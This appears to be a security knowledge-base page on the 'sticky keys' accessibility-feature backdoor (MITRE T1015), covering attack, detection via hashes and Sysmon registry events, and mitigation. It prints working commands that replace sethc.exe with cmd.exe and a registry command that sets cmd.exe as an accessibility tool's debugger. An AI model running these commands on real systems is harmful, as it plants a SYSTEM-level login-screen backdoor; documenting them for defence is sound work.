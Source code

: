 ﻿
# T1015 - Accessibility Features

## Attributes

**Tactic**: Persistence, Privilege escalation
**Effective Permissions**: System
**Data Sources**: Windows Registry, File monitoring, Process monitoring

## Description

The attacker will try to replace an accessibility executable such as **C:\Windows\System32\sethc.exe** or **C:\Windows\System32\sethc.exe** with **cmd.exe**. Once the accessibility executable has been replaced the attacker can now bring command prompt up regardless of user access by pressing **shift 5 times** or pressing **Win + U**.

## Tools to Perform Attack

Windows command line using the **move** or **copy** command.

### Examples

```shell
move /Y %windir%\System32\cmd.exe %windir%\System32\sethc.exe
copy /y %windir%\System32\cmd.exe %windir%\System32\sethc.exe
```

An attacker might also attach cmd.exe as a debugger to these tools by using the windows registry.

```shell
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_executable}" /v "Debugger" /t REG_SZ /d "C:\windows\system32\cmd.exe" /f
```

### Other Accessibility Executables

|File|Description|
|-|-|
|**C:\Windows\System32\osk.exe**| On-Screen Keyboard |
|**C:\Windows\System32\Magnify.exe**| Magnifier |
|**C:\Windows\System32\Narrator.exe**| Narrator |
|**C:\Windows\System32\DisplaySwitch.exe**| Display Switcher |
|**C:\Windows\System32\AtBroker.exe**| App switcher |

## Detection

Compare the hashes of the accessibility executables. A powershell script is available in references.

Monitor the registry at
> HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options

### Example

> HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe

To search for this on kibana you would use the sysmon event ID 12/13/14 (Registry Events), with the context 
`HKLM\SOFTWARE\Microsoft\Windows\Windows NT\CurrentVersion\Image File Execution Options`

### Event IDs

Sysmon - Event ID 12 - Registry object added or deleted (rule: RegistryEvent)
`TargetObject: HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services`
Sysmon - Event ID 1 - Process Create (rule: ProcessCreate)
`ParentImage: utilman.exe /debug`

## Mitigation

- Ensure that Network Level Authentication is enabled so that RDP users can't access the login screen without being logged in.

## References

  - [Mitre T1015](https://attack.mitre.org/techniques/T1015/)

- **Atomic Red Team Article**
  - [https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1015/T1015.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1015/T1015.md)

- **Sticky-Keys scanner powershell script**
  - [https://github.com/TrullJ/sticky-keys-scanner/blob/master/TestFor-StickyKey.ps1](https://github.com/TrullJ/sticky-keys-scanner/blob/master/TestFor-StickyKey.ps1)

- **How to configure Network Level Authentication for RDP**
  - [https://www.darkoperator.com/blog/2012/3/17/configuring-network-level-authentication-for-rdp.html](https://www.darkoperator.com/blog/2012/3/17/configuring-network-level-authentication-for-rdp.html)
